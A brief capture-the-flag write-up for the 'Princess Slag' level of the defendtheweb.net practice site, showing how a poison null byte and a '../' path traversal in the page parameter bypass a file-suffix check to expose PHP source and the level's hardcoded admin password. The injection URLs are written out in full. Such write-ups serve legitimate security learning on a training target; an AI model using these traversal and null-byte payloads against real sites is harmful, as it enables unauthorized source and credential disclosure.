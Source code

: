 <https://defendtheweb.net/playground/princess-slag>

## Poison Null Byte

The three tabs (i.e., home, news, contact) are accessible at: <https://defendtheweb.net/extras/playground/princess-slag/?p=index>

The admin page is accessible at: <https://defendtheweb.net/extras/playground/princess-slag/admin.php?password=rw>

We try to access <https://defendtheweb.net/extras/playground/princess-slag/?p=admin>, and then get:

```text
Warning: file_get_contents(admin.html) [function.file-get-contents]: failed to open stream: No such file or directory in pages on line 22
```

Thus, it is able to use Null Byte Injection to let `.php` pass the check of `.html` suffix: <https://defendtheweb.net/extras/playground/princess-slag/?p=admin.php%00>.

```text
Warning: file_get_contents(admin.php) [function.file-get-contents]: failed to open stream: No such file or directory in pages on line 22
```

Then go a leval up: <https://defendtheweb.net/extras/playground/princess-slag/?p=../admin.php%00>.

Then view source:

```php
<div id="content">
    <?php
        session_start();
        if(isset($_GET['password']) ){
            if( $_GET['password'] == 'b3fa0b1861'){
                echo "Correct password"
            } else {
                echo "Incorrect password";
            }
        }
    ?>
    <form>
        <input type="password" name="password" /><input type="submit" value="Login" />
    </form>
</div>
```

Thus we can access the source code from the `.php` file in backend rather than the rendered `.html` in frontend.

## Reference

<https://defendtheweb.net/article/common-php-attacks-poison-null-byte>

<https://alexandervoidstar.wordpress.com/2015/11/07/hackthis-real-level-5/>
